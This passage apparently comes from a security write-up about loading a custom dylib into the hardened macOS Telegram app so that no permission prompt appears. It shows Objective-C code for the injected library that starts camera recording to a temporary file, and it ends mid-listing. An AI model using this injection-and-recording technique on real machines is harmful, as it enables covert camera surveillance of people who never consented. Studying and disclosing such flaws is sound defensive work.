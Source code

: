 Note that in this case, we do not see the prompt on the screen because the binary is hardened (we can see that it is runtime hardened using codesign).
Now that we have successfully loaded the dylib, we will continue writing the code. Let's go back to the telegram.m file we created earlier and write code that captures video from the camera for 3 seconds and saves the recording to a file.

The full code can be found here:

```objc
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *videoDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *movieFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation VideoRecorder

- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}

- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;

    AVCaptureDevice *videoDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeVideo];
    NSError *error;
    self.videoDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:videoDevice error:&error];

    if (error) {
        NSLog(@"Error setting up video device input: %@", [error localizedDescription]);
        return;
    }

    if ([self.captureSession canAddInput:self.videoDeviceInput]) {
        [self.captureSession addInput:self.videoDeviceInput];
    }

    self.movieFileOutput = [[AVCaptureMovieFileOutput alloc] init];

    if ([self.captureSession canAddOutput:self.movieFileOutput]) {
        [self.captureSession addOutput:self.movieFileOutput];
    }
}

- (void)startRecording {
    [self.captureSession startRunning];
    NSString *outputFilePath = [NSTemporaryDirectory() stringByAppendingPathComponent:@"recording.mov"];
    NSURL *outputFileURL = [NSURL fileURLWithPath:outputFilePath];
    [self.movieFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
    NSLog(@"Recording started");
}
```